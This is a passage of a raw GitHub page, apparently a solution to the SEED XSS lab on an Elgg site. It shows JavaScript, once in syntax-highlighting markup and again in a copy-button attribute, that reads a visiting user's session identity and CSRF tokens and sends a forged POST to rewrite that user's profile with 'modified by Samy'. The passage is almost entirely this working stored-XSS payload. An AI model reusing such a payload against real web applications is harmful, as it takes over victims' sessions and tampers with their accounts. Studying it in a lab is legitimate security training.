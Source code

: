     <span class="pl-k">var</span> <span class="pl-s1">ts</span> <span class="pl-c1">=</span> <span class="pl-s">"&amp;__elgg_ts="</span> <span class="pl-c1">+</span> <span class="pl-s1">elgg</span><span class="pl-kos">.</span><span class="pl-c1">security</span><span class="pl-kos">.</span><span class="pl-c1">token</span><span class="pl-kos">.</span><span class="pl-c1">__elgg_ts</span><span class="pl-kos">;</span>
    <span class="pl-k">var</span> <span class="pl-s1">token</span> <span class="pl-c1">=</span> <span class="pl-s">"&amp;__elgg_token="</span> <span class="pl-c1">+</span> <span class="pl-s1">elgg</span><span class="pl-kos">.</span><span class="pl-c1">security</span><span class="pl-kos">.</span><span class="pl-c1">token</span><span class="pl-kos">.</span><span class="pl-c1">__elgg_token</span><span class="pl-kos">;</span>
    <span class="pl-k">var</span> <span class="pl-s1">description</span> <span class="pl-c1">=</span>
      <span class="pl-s">"&amp;description=&lt;p&gt;modified by Samy&lt;p&gt;"</span> <span class="pl-c1">+</span> <span class="pl-s">"&amp;accesslevel[description]=2"</span><span class="pl-kos">;</span>
    <span class="pl-c">//Construct the content of your url.</span>
    <span class="pl-k">var</span> <span class="pl-s1">sendurl</span> <span class="pl-c1">=</span> <span class="pl-s">"http://www.xsslabelgg.com/action/profile/edit"</span><span class="pl-kos">;</span>
    <span class="pl-k">var</span> <span class="pl-s1">content</span> <span class="pl-c1">=</span> <span class="pl-s1">userName</span> <span class="pl-c1">+</span> <span class="pl-s1">guid</span> <span class="pl-c1">+</span> <span class="pl-s1">ts</span> <span class="pl-c1">+</span> <span class="pl-s1">token</span> <span class="pl-c1">+</span> <span class="pl-s1">description</span><span class="pl-kos">;</span>
    <span class="pl-k">var</span> <span class="pl-s1">samyGuid</span> <span class="pl-c1">=</span> <span class="pl-c1">47</span><span class="pl-kos">;</span>
    <span class="pl-k">if</span> <span class="pl-kos">(</span><span class="pl-s1">elgg</span><span class="pl-kos">.</span><span class="pl-c1">session</span><span class="pl-kos">.</span><span class="pl-c1">user</span><span class="pl-kos">.</span><span class="pl-c1">guid</span> <span class="pl-c1">!=</span> <span class="pl-s1">samyGuid</span><span class="pl-kos">)</span> <span class="pl-kos">{</span>
      <span class="pl-c">//Create and send Ajax request to modify profile</span>
      <span class="pl-k">var</span> <span class="pl-v">Ajax</span> <span class="pl-c1">=</span> <span class="pl-c1">null</span><span class="pl-kos">;</span>
      <span class="pl-v">Ajax</span> <span class="pl-c1">=</span> <span class="pl-k">new</span> <span class="pl-v">XMLHttpRequest</span><span class="pl-kos">(</span><span class="pl-kos">)</span><span class="pl-kos">;</span>
      <span class="pl-v">Ajax</span><span class="pl-kos">.</span><span class="pl-en">open</span><span class="pl-kos">(</span><span class="pl-s">"POST"</span><span class="pl-kos">,</span> <span class="pl-s1">sendurl</span><span class="pl-kos">,</span> <span class="pl-c1">true</span><span class="pl-kos">)</span><span class="pl-kos">;</span>
      <span class="pl-v">Ajax</span><span class="pl-kos">.</span><span class="pl-en">setRequestHeader</span><span class="pl-kos">(</span><span class="pl-s">"Host"</span><span class="pl-kos">,</span> <span class="pl-s">"www.xsslabelgg.com"</span><span class="pl-kos">)</span><span class="pl-kos">;</span>
      <span class="pl-v">Ajax</span><span class="pl-kos">.</span><span class="pl-en">setRequestHeader</span><span class="pl-kos">(</span>
        <span class="pl-s">"Content-Type"</span><span class="pl-kos">,</span>
        <span class="pl-s">"application/x-www-form-urlencoded"</span>
      <span class="pl-kos">)</span><span class="pl-kos">;</span>
      <span class="pl-v">Ajax</span><span class="pl-kos">.</span><span class="pl-en">send</span><span class="pl-kos">(</span><span class="pl-s1">content</span><span class="pl-kos">)</span><span class="pl-kos">;</span>
    <span class="pl-kos">}</span>
  <span class="pl-kos">}</span><span class="pl-kos">;</span>
<span class="pl-kos">&lt;/</span><span class="pl-ent">script</span><span class="pl-kos">&gt;</span></pre><div class="zeroclipboard-container position-absolute right-0 top-0">
    <clipboard-copy aria-label="Copy" class="ClipboardButton btn js-clipboard-copy m-2 p-0 tooltipped-no-delay" data-copy-feedback="Copied!" data-tooltip-direction="w" value="<script type=&quot;text/javascript&quot;>
  window.onload = function () {
    //JavaScript code to access user name, user guid, Time Stamp __elgg_ts
    //and Security Token __elgg_token
    var userName = &quot;&amp;name=&quot; + elgg.session.user.name;
    var guid = &quot;&amp;guid=&quot; + elgg.session.user.guid;
    var ts = &quot;&amp;__elgg_ts=&quot; + elgg.security.token.__elgg_ts;
    var token = &quot;&amp;__elgg_token=&quot; + elgg.security.token.__elgg_token;
    var description =
      &quot;&amp;description=<p>modified by Samy<p>&quot; + &quot;&amp;accesslevel[description]=2&quot;;